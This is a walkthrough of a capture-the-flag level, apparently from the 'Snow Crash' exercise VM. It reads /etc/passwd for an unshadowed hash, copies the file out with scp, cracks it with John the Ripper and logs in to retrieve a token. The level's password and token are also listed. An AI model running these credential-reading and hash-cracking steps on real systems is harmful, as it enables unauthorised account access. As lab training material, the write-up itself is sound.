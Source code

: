 # Level01 - Flag01

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level01 | `level01`                   |
| flag01  | `abcdefg`                   |
| token   | `f2av5il02puano7naaf6adaaf` |

## Steps to resolve on VM

1. Find files owned by the user `flag01`

```bash
find / -user flag00 2>/dev/null
# Nothing returned
```

2. We will then try to check the file /etc/shadow & /etc/passwd who handle passwords

```bash
cat /etc/shadow
> cat: /etc/shadow: Permission denied

cat /etc/passwd
# This one is accessible and gives use a big list concerning passwords

cat /etc/passwd | grep flag01
> flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
# We can notice in the 'flag01' line that there is an hashed password,
# in opposite to the other passwords who are shadowed with "x"
```

3. Use John the Ripper external hacking tool to decode this password. (with a docker container)

```bash
# First launch the docker container which will use "kali-script.sh' to run the john hacking tool
docker run -e SNOW_HOST=$SNOW_HOST -it -v $PWD/$SCRIPT:/$SCRIPT --rm kalilinux/kali-rolling bash kali_script.sh

# After installing the dependencies, we copy the /etc/passwd file
apt-get update && apt-get install -y openssh-client && apt-get install -y john
scp -q -o "StrictHostKeyChecking no" -P $SNOW_PORT $SNOW_USER@$SNOW_HOST:$PASSWORD_PATH ./

# And we apply john hacking tool on it and show it
john passwd
john --show passwd
> flag01 password is : abcdefg
```

4. Now we can connect to 'flag01' and use 'getflag' to get the token

```bash
ssh -t -q $FLAG_LEVEL@$SNOW_HOST -p $SNOW_PORT "getflag"
> Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```

---

## Sources

### Shell

- [SCP explanations](https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/#:~:text=%3A%2Fremote%2Fdirectory-,Copy%20a%20Remote%20File%20to%20a%20Local%20System%20using%20the,local%20location%20as%20the%20destination.&text=If%20you%20haven't%20set,to%20enter%20the%20user%20password.)
- [SCP auto accept RSA Key Fingerprint](https://serverfault.com/questions/638600/auto-accept-rsa-key-fingerprint-from-command-line)

### Docker

- [Docker run bash script from host, then remove container](https://serverfault.com/questions/806812/docker-run-bash-script-then-remove-container)

### John the ripper

- [John The ripper explanations](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-user-passwords-linux-system-0147164/)
